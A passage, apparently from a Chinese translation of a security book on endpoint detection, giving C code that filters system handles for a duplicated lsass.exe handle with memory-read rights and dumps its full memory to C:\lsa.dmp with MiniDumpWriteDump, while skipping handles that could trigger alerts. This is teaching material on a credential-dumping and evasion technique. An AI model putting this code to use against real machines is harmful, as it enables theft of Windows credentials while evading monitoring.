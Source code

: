 ```
              &ulReturnLength);
          if (status != STATUS_SUCCESS)
          {
              continue;
          }

        ❸ if (!_wcsicmp(pObjectTypeInfo->TypeName.Buffer, L"Process"))
          {
              `--snip--`
          }
          free(pObjectTypeInfo);
      }
    }
}
```

列表 4-11：仅筛选进程句柄

我们首先确保*lsass.exe*或系统进程不拥有该句柄 ❶，因为这可能触发某些警报逻辑。然后，我们调用 <samp class="SANS_TheSansMonoCd_W5Regular_11">ntdll!NtQueryObject()</samp>，传入 <samp class="SANS_TheSansMonoCd_W5Regular_11">ObjectTypeInformation</samp> ❷ 以获取句柄所属对象的类型。接下来，我们确定该句柄是否属于进程对象 ❸，以便过滤掉其他类型，如文件和互斥体。

在完成基本过滤后，我们需要进一步调查这些句柄，确保它们具有我们所需的访问权限以转储进程内存。列表 4-12 在前一个代码清单的基础上进行了扩展。

```
if (!_wcsicmp(pObjectTypeInfo->TypeName.Buffer, L"Process"))
{
    LPWSTR szImageName = (LPWSTR)malloc(MAX_PATH * sizeof(WCHAR));
    DWORD dwSize = MAX_PATH * sizeof(WCHAR);

  ❶ if (QueryFullProcessImageNameW(hDuplicateHandle, 0, szImageName, &dwSize))
   {
        if (IsLsassHandle(szImageName) &&
        (handleEntryInfo.GrantedAccess & PROCESS_VM_READ) == PROCESS_VM_READ &&
        (handleEntryInfo.GrantedAccess & PROCESS_QUERY_INFORMATION) ==
            PROCESS_QUERY_INFORMATION)
        {
            HANDLE hOutFile = CreateFileW(
                L"C:\\lsa.dmp",
                GENERIC_WRITE,
                0,
                NULL,
                CREATE_ALWAYS,
                0, NULL); ❷ if (MiniDumpWriteDump(
                  hDuplicateHandle,
                  dwLsassPid,
                  hOutFile,
                  MiniDumpWithFullMemory,
                  NULL, NULL, NULL))
          {
              break;
          }

          CloseHandle(hOutFile);
        }
   }
}
```
